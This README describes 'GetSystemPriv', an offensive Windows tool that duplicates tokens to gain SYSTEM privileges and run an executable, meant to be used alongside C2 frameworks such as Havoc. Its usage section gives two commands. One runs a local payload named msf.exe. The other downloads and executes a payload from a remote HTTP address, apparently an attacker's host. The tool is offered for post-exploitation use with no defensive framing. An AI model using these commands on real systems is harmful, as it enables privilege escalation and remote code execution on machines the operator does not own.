


# GetSystemPriv

Application for token duplication running chosen local executable file or by downloading one from given URL.
I'm a big fan of running *getsystem* while using Meterpreter and seeing SYSTEM context in the list of sessions, but it kind of annoys me when I don't have it using Havoc or any other C2. That's why I created GetSystemPriv. 
> This project is based on [TokenDuplicator](https://github.com/magnusstubman/tokenduplicator) by Magnus Stubman. 

## Usage
Local file execution:
`GetSystemPriv.exe local C:\Users\test\Desktop\msf.exe`

Remote file execution:
`GetSystemPriv.exe net http://10.10.14.15/msf.exe`

## Images

